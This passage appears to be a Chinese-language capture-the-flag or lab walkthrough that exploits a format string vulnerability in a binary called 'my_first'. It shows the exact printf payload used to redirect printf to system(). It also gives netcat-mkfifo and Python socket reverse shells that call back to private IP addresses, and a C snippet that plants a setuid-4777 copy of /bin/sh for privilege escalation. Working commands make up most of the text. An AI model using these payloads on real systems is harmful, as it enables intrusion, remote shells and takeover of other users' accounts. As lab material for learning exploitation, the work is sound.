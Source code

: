 
11）shellcode
最终shellcode：44962+4=44966
printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n' > shell
gdb ./my_first
r < shell
0x08c3b561 in ?? ()   回显：h: 1: Selection:: not found
输出是正确的，确认可以用system（）覆盖printf（）了！！！

根据回显知道，它会在系统“Selection:”处调用命令程序！测试下将一个简单的netcat（不带-e）的shellcode写入到“Selection:”的文件中！


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.253.229 6666 >/tmp/f

或者直接计算！
shell echo $(python -c 'print 0x14006-0x9060')   ---计算出44966


12）格式字符串缓冲区反弹shell
由于回显内容，可以判断函数内容：system(“Selection:”)！

printf '1\n1\n\xfc\x9b\x04\x08\xfe\x9b\x04\x08%%36952u%%8$n%%44966u%%9$n' > shell

Selection:

echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.253.138",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'" > "Selection:"

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.253.138 4444 >/tmp/f' > "Selection:"    ----注意双引号问题！

export PATH=.:$PATH
cat shell | ./my_first

成功获得反弹john-shell！


拓展小知识：

----
#include <stdio.h>
int main()
{
    system("cp /bin/sh /tmp/dayu1");
    system("chmod 4777 /tmp/dayu1");
}
----
gcc dayu1.c -o "Selection:"
export PATH=/home/mike/:$PATH
cat shell | ./my_first
ls -la /tmp
-rwsrwxrwx  1 john mike 100284 Apr 14 21:52 dayu1
执行：
/tmp/dayu1 
$ id
uid=1001(mike) gid=1001(mike) euid=1000(john) groups=1000(john),1001(mike)
